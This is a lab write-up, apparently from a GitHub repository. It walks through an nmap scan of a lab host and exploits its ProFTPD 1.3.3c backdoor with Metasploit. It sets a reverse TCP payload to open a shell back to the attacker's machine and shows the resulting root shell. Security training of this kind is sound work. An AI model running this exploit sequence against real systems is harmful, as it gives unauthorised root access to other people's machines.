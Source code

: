 # Steps for lab 2

## Step 1 - Search for exploits on target

```bash
nmap nmap -sC -sV 10.5.0.254
```

```markdown
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
80/tcp open  http    Apache httpd 2.4.10 ((Debian) PHP/5.5.29)
|_http-server-header: Apache/2.4.10 (Debian) PHP/5.5.29
|_http-title: exploit.co.il : Articles : Tutorials : Reviews : Videos
```

## Step 2 - Use msfconsole

```bash
msfconsole
```

### Step 2.1

```bash
search ProFTPD
use 5
set RHOSTS 10.5.0.254
run
```

```markdown
[-] 10.5.0.254:21 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
```

### Step 2.2

```bash
ifconfig
```

```markdown
eth-lab: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.5.0.1  netmask 255.255.255.0  broadcast 0.0.0.0
```

### Step 2.3

```bash
show payloads
set payload 5
set LHOST 10.5.0.1
run
```

```markdown
[*] Started reverse TCP handler on 10.5.0.1:4444
[*] 10.5.0.254:21 - Sending Backdoor Command
[*] Command shell session 1 opened (10.5.0.1:4444 -> 10.5.1.11:46394) at 2023-03-27 03:40:12 +0000
```

## Step 3 - Now you are in the target machine

```bash
whoami
```

```markdown
root
```

```bash
ls
```

```markdown
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
proftpd-1.3.3c
root
run
sbin
srv
sys
tmp
usr
var
```

## Terminal output

- [tmux session 1](tmux1.txt)

- [tmux session 2](tmux2.txt)
